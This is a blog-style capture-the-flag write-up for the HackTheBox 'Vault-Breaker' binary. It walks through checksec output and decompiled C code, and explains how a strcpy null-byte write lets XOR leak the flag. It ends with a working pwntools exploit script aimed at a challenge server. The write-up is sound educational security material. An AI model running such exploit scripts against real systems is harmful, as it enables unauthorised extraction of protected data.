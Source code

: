 ```yaml
---
layout: post
title: Binary Exploitatiog&#58; HacktheBox/Vault-Breaker Write-up
---
```


## HacktheBox Vault-Breaker Write-up

This was a pretty simply challenge that is centered around the ```strcpy``` function.

First, we need to check the file type and securities on the binary
```
└─$ file vault-breaker
vault-breaker: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./.glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=26386d5d416b0017bc57216179a3fb116fa78667, not stripped
```
```
└─$ checksec --file=vault-breaker                                                
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   90 Symbols	  No	0		5		vault-breaker
```

With a canary, NX, and PIE, we won't be able to (or at least easily) do a buffer overflow or shellcode injection. Time to see what it looks like in ghidra.

### Reversing

First, let's check the ```main``` function.
```c
void main(void)

{
  long lVar1;
  
  setup();
  banner();
  key_gen();
  fprintf(stdout,"%s\n[+] Random secure encryption key has been generated!\n%s",&DAT_00103142,
          &DAT_001012f8);
  fflush(stdout);
  while( true ) {
    while( true ) {
      printf(&DAT_00105160,&DAT_001012f8);
      lVar1 = read_num();
      if (lVar1 != 1) break;
      new_key_gen();
    }
    if (lVar1 != 2) break;
    secure_password();
  }
  printf("%s\n[-] Invalid option, exiting..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
  exit(0x45);
}
```

The program generates a random key value in the ```key_gen()``` function and then prompts the user for a menu choice. The options are ```1``` for generate a new key and ```2``` to "secure" the password.

Now we need to look at the ```new_key_gen``` function.
```c
void new_key_gen(void)

{
  int iVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  ulong local_60;
  ulong local_58;
  char local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_60 = 0;
  local_58 = 0x22;
  __stream = fopen("/dev/urandom","rb");
  if (__stream == (FILE *)0x0) {
    fprintf(stdout,"\n%sError opening /dev/urandom, exiting..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  while (0x1f < local_58) {
    printf("\n[*] Length of new password (0-%d): ",0x1f);
    local_58 = read_num();
  }
  memset(local_48,0,0x20);
  iVar1 = fileno(__stream);
  read(iVar1,local_48,local_58);
  for (; local_60 < local_58; local_60 = local_60 + 1) {
    while (local_48[local_60] == '\0') {
      iVar1 = fileno(__stream);
      read(iVar1,local_48 + local_60,1);
    }
  }
  strcpy(random_key,local_48);
  fclose(__stream);
  printf("\n%s[+] New key has been genereated successfully!\n%s",&DAT_00103142,&DAT_001012f8);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

This function essentially generates a new key of the length provided by the user. The vulnerability is in the ```strcpy``` function. ```strcpy``` takes the contents of ```arg[1]``` and copies them into ```arg[0]```. The catch is, that it will copy the null terminator as well. This will be an important detail in the next function we take a look at, ```secure_password```.
```c
void secure_password(void)

{
  char *__buf;
  int __fd;
  ulong uVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char acStack136 [24];
  undefined8 uStack112;
  int local_68;
  int local_64;
  char *local_60;
  undefined8 local_58;
  char *local_50;
  FILE *local_48;
  undefined8 local_40;
  
  local_40 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  uStack112 = 0x100c26;
  puts("\x1b[1;34m");
  uStack112 = 0x100c4c;
  printf(&DAT_00101308,&DAT_001012f8,&DAT_00101300,&DAT_001012f8);
  local_60 = &DAT_00101330;
  local_64 = 0x17;
  local_58 = 0x16;
  local_50 = acStack136;
  memset(acStack136,0,0x17);
  local_48 = fopen("flag.txt","rb");
  __buf = local_50;
  if (local_48 == (FILE *)0x0) {
    fprintf(stderr,"\n%s[-] Error opening flag.txt, contact an Administrator..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  sVar2 = (size_t)local_64;
  __fd = fileno(local_48);
  read(__fd,__buf,sVar2);
  fclose(local_48);
  puts(local_60);
  fwrite("\nMaster password for Vault: ",1,0x1c,stdout);
  local_68 = 0;
  while( true ) {
    uVar1 = (ulong)local_68;
    sVar2 = strlen(local_50);
    if (sVar2 <= uVar1) break;
    putchar((int)(char)(random_key[local_68] ^ local_50[local_68]));
    local_68 = local_68 + 1;
  }
  puts("\n");
                    /* WARNING: Subroutine does not return */
  exit(0x1b39);
}
```

This function looks like a lot, but the salient detail is in this code block:
```c
  while( true ) {
    uVar1 = (ulong)local_68;
    sVar2 = strlen(local_50);
    if (sVar2 <= uVar1) break;
    putchar((int)(char)(random_key[local_68] ^ local_50[local_68]));
    local_68 = local_68 + 1;
  }
```

The flag is XORed with our key. Using the information we gathered previously about the nature of the ```strcpy``` function and the fact that anything XORed with 0 is equal to itself, we can put together the flag one character at a time.

### Pwn

To complete this challenge, we need a script that will connect to the target and input a key length 32 times from 0 to 31 (The key length is 32 bytes).
```python
#!/usr/bin/env  python3

from pwn import *

flag = ""

for i in range(23):
    p = remote("209.97.134.177", 31320) 
    p.recvuntil(b"> ", timeout=30)
    p.sendline(b"1")
    p.recvuntil(b"Length of new password (0-31): ", timeout=30)
    p.sendline(str(i))
    p.recvuntil(b"> ", timeout=30)
    p.sendline(b"2")

    # Capture response
    p.recvuntil(b"Vault: ", timeout=30)
    r = p.recvline()

    # Append unencrypted character to flag
    flag += chr(r[i])
    p.close()
    print(flag)
```

Et Voila!
